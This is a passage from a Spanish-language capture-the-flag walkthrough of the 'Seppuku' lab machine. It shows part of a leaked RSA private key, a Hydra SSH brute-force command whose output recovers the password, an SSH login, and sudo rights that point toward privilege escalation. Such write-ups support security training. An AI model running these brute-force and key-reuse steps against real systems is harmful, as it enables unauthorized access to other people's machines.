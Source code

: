 ```
o4Pek0EKPY+22TCv5bUJlOz+5bql3AfvbbQyibO1h9tETyMgGXEhaJIvTQSu4deZ
/DiLLCttkDHXuW2FTosfQx0CgYEAkhGOSjapRRBHSxaTE3Cw5UFNZvnsVZu1tCEE
PwD5NVh9HzQr8YrlOnIk5L68deUpYF/WkNbAlLzcizBlifN5kseeFRN188qCYHCb
xPRtZuf+X7ZD5he4FzkRCcXmSeGynjkTB4CAMq+R6RYLt1yaFtk9/gZAfJBLna5o
NbM7Rt8CgYA5oPRfIpKZ5G9LJEAsBUONgBsrpXs+816ZEvBGsqPs/NPhhZMFetKm
RXxYAiEUudMsahP4Woeuxy8kWfM2J2ltwC/HRFuKnKfsHBhsn/FilspYfrafr985
tFnL/K9Z8le1saEGjwCu6zKto7CaFjj2D4Y9ji0sHGBO+tVbtmU/Jg==
-----END RSA PRIVATE KEY-----
```

Pero de todo esto nos centraremos en el nombre de usuario que sabemos que es el hostname `seppuku` y con el diccionario de palabras que encontramos tiramos un hydra...

```shell
hydra -l seppuku -P <WORDLIST> ssh://<IP> -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-14 03:48:46
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 92 login tries (l:1/p:92), ~2 tries per task
[DATA] attacking ssh://192.168.195.137:22/
[22][ssh] host: 192.168.195.137   login: seppuku   password: eeyoree
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 23 final worker threads did not complete until end.
[ERROR] 23 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-14 03:48:52
```

```
Credentials:

User = seppuku

Password = eeyoree
```

Y con esto entrariamos por ssh..

```shell
ssh seppuku@<IP>
```

Si haces `sudo -l` veras lo siguiente...

```
Matching Defaults entries for seppuku on seppuku:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User seppuku may run the following commands on seppuku:
    (ALL) NOPASSWD: /usr/bin/ln -sf /root/ /tmp/
```
